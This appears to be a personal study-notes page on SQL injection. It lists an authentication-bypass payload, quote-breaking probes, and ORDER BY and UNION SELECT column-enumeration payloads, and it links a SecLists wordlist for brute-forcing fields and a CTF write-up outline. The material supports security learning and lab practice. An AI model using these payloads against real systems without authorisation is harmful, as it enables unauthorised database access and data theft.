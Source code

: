 # SQL Injection





{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### **SQL Injection**

```
a' or 1=1 -- -

```









**List**

```
'
"
`
')
")
`)
'))
"))
`))
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 4--+
1' GROUP BY 1--+
1' GROUP BY 2--+
1' GROUP BY 3--+
1' GROUP BY 4--+
1' UNION SELECT null-- -
1' UNION SELECT null,null-- -
1' UNION SELECT null,null,null-- -
1' UNION SELECT null,null,null,null-- -
1' UNION SELECT null,null,null,null,null-- -
```



## Bruteforce fields

Good wordlist to use. You would do this if you discovered one field already, than you just replace it(in the example below you change password) with your list.&#x20;

```
git clone https://github.com/danielmiessler/SecLists.git
ls /SecLists/Discovery/Web-Content/common.txt
```

<figure><img src="../../.gitbook/assets/image (34) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (35) (1).png" alt=""><figcaption></figcaption></figure>









From SQHell, go over and put in notes

**On this page**

* [Machine Information](https://pencer.io/ctf/ctf-thm-sqhell/#machine-information)
* [SQL Injection Info](https://pencer.io/ctf/ctf-thm-sqhell/#sql-injection-info)
* [Initial Access](https://pencer.io/ctf/ctf-thm-sqhell/#initial-access)
* [Flag 1 - In-Band/Error Based - Browser Method](https://pencer.io/ctf/ctf-thm-sqhell/#flag-1---in-banderror-based---browser-method)
* [Flag 1 - In-Band/Error Based - Curl Method](https://pencer.io/ctf/ctf-thm-sqhell/#flag-1---in-banderror-based---curl-method)
* [Flag 1 - In-Band/Error Based - Burp Method](https://pencer.io/ctf/ctf-thm-sqhell/#flag-1---in-banderror-based---burp-method)
* [Flag 1 - In-Band/Error Based - SQLMap Method](https://pencer.io/ctf/ctf-thm-sqhell/#flag-1---in-banderror-based---sqlmap-method)
* [Flag 5 - In-Band/Union - Browser Method](https://pencer.io/ctf/ctf-thm-sqhell/#flag-5---in-bandunion---browser-method)
* [Flag 5 - In-Band/Union - Curl Method](https://pencer.io/ctf/ctf-thm-sqhell/#flag-5---in-bandunion---curl-method)
* [Flag 5 - In-Band/Union - SQLMap Method](https://pencer.io/ctf/ctf-thm-sqhell/#flag-5---in-bandunion---sqlmap-method)
* [Flag 3 - Blind/Boolean - Browser Method](https://pencer.io/ctf/ctf-thm-sqhell/#flag-3---blindboolean---browser-method)
* [Flag 3 - Blind/Boolean - Curl Method](https://pencer.io/ctf/ctf-thm-sqhell/#flag-3---blindboolean---curl-method)
* [Flag 3 - Blind/Boolean - SQLMap Method](https://pencer.io/ctf/ctf-thm-sqhell/#flag-3---blindboolean---sqlmap-method)
* [Flag 2 - Blind/Time - Curl Method](https://pencer.io/ctf/ctf-thm-sqhell/#flag-2---blindtime---curl-method)
* [Flag 2 - Blind/Time - SQLMap Method](https://pencer.io/ctf/ctf-thm-sqhell/#flag-2---blindtime---sqlmap-method)
* [Flag 4 - Out-of-band - Browser Method](https://pencer.io/ctf/ctf-thm-sqhell/#flag-4---out-of-band---browser-method)
* [Flag 4 - Out-of-band - Curl Method](https://pencer.io/ctf/ctf-thm-sqhell/#flag-4---out-of-band---curl-method)
* [Flag 4 - Out-of-band - SQLMap Method](https://pencer.io/ctf/ctf-thm-sqhell/#flag-4---out-of-band---sqlmap-method)

